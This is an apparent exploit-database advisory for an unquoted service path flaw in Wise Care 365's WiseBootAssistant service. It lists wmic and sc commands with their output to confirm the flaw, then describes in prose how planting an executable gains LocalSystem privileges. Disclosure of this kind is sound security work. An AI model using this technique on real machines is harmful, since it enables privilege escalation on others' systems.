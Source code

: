     # Exploit Title: Wise Care 365 5.6.7.568 - 'WiseBootAssistant' Unquoted Service Path
    # Date: 2021-06-18
    # Exploit Author: Julio Aviña
    # Vendor Homepage: https://www.wisecleaner.com/wise-care-365.html
    # Software Link: https://downloads.wisecleaner.com/soft/WiseCare365_5.6.7.568.exe
    # Version: 5.6.7.568
    # Service File Version 1.2.4.54
    # Tested on: Windows 10 Pro x64 es
    # Vulnerability Type: Unquoted Service Path


    # 1. To find the unquoted service path vulnerability

    C:\>wmic service where 'name like "%WiseBootAssistant%"' get displayname, pathname, startmode, startname

    DisplayName          PathName                                                StartMode  StartName
    Wise Boot Assistant  C:\Program Files (x86)\Wise\Wise Care 365\BootTime.exe  Auto       LocalSystem

    # 2. To check service info:

    C:\>sc qc "WiseBootAssistant"
    [SC] QueryServiceConfig CORRECTO

    NOMBRE_SERVICIO: WiseBootAssistant
            TIPO               : 110  WIN32_OWN_PROCESS (interactive)
            TIPO_INICIO        : 2   AUTO_START
            CONTROL_ERROR      : 1   NORMAL
            NOMBRE_RUTA_BINARIO: C:\Program Files (x86)\Wise\Wise Care 365\BootTime.exe
            GRUPO_ORDEN_CARGA  :
            ETIQUETA           : 0
            NOMBRE_MOSTRAR     : Wise Boot Assistant
            DEPENDENCIAS       :
            NOMBRE_INICIO_SERVICIO: LocalSystem


    # 3. Exploit:

    A successful attempt to exploit this vulnerability requires the attacker to insert an executable file into the service path undetected by the OS or some security application.
    When restarting the service or the system, the inserted executable will run with elevated privileges.